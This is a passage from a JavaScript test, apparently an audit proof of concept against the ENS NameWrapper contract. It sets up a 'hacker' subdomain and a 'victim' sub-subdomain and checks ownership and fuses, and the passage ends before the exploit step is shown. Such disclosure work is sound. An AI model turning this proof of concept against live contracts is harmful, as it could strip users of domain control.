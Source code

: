 ```javascript
      await NameWrapper.setController(dev, true)
    })

    it('a passed test denotes a successful attack', async () => {
      const label = 'poc'
      const labelHash = labelhash(label)
      const wrappedTokenId = namehash(label + '.eth')

      // register a 2LD domain
      await NameWrapper.registerAndWrapETH2LD(
        label,
        dev,
        86400,
        EMPTY_ADDRESS,
        CAN_DO_EVERYTHING,
        MAX_EXPIRY
      )
      expect(await BaseRegistrar.ownerOf(labelHash)).to.equal(
        NameWrapper.address
      )
      expect(await EnsRegistry.owner(wrappedTokenId)).to.equal(
        NameWrapper.address
      )
      expect(await NameWrapper.ownerOf(wrappedTokenId)).to.equal(dev)

      // signed a submomain for the hacker
      const subLabel = 'hack'
      const subLabelHash = labelhash(subLabel)
      const subDomain = subLabel + '.' + label + '.eth'
      const wrappedSubTokenId = namehash(subDomain)
      await NameWrapper.setSubnodeOwner(
        wrappedTokenId,
        subLabel,
        hacker,
        PARENT_CANNOT_CONTROL,
        MAX_EXPIRY
      )
      expect(await EnsRegistry.owner(wrappedSubTokenId)).to.equal(
          NameWrapper.address
      )
      expect(await NameWrapper.ownerOf(wrappedSubTokenId)).to.equal(hacker)
      expect(
          (await NameWrapper.getFuses(wrappedSubTokenId))[0]
      ).to.equal(PARENT_CANNOT_CONTROL)

      // hacker signed a subsubmomain for a victim user
      const subSubLabel = 'victim'
      const subSubLabelHash = labelhash(subSubLabel)
      const subSubDomain = subSubLabel + '.' + subDomain
      const wrappedSubSubTokenId = namehash(subSubDomain)
      await NameWrapperH.setSubnodeOwner(
        wrappedSubTokenId,
        subSubLabel,
        victim,
        PARENT_CANNOT_CONTROL,
        MAX_EXPIRY
      )
      expect(await EnsRegistry.owner(wrappedSubSubTokenId)).to.equal(
          NameWrapper.address
      )
      expect(await NameWrapper.ownerOf(wrappedSubSubTokenId)).to.equal(victim)
      expect(
          (await NameWrapper.getFuses(wrappedSubSubTokenId))[0]
```